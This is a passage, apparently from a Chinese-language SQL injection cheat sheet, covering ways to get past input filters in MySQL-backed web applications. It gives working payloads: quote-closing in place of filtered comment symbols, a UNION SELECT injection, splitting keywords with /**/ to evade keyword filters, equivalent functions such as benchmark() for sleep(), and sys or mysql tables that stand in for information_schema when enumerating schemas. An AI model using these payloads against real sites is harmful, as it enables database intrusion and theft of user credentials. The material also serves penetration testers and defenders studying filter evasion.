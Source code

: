 即如果 `(... rlike ...)` 中的语句执行匹配后的结果为`True`，经过减号转换后为 `exp(710-1)` 后不会溢出；若为`false`，转换为 `exp(710-0)` 后则会溢出并报错



#### **10、绕过注释符号（#，--）过滤**

使用单引号、双引号进行引号闭合绕过

```
SELECT * FROM users WHERE id='$_POST[id]' LIMIT 0,1
```

我们传入

```
id=1' and 1=2 union select 1,2,3' 
```

这样语句就变成了

```
SELECT * FROM users WHERE id='1' and 1=2 union select 1,2,3' ' LIMIT 0,1
```

引号正常闭合



#### 11、绕过union，select，where等

可尝试在关键字内插入/**/

```
U/**/NION/**/SE/**/LECT/**/user，pwd from user

union select user,pwd from user
```



#### 12.等价函数绕过

```
hex()、bin() ==> ascii()
sleep() ==>benchmark()
concat_ws()==>group_concat()
mid()、substr() ==> substring()
@@user ==> user()
@@datadir ==> datadir()
```



#### 13.information过滤

`sys.schema_auto_increment_columns`代替`information_schema`，用来对表自增ID的监控

但是 `sys.schema_auto_increment_columns`这个库有些局限性，一般要超级管理员才可以访问sys。

类似可以利用的表还有：`mysql.innodb_table_stats`、`mysql.innodb_table_index`同样存放有库名表名
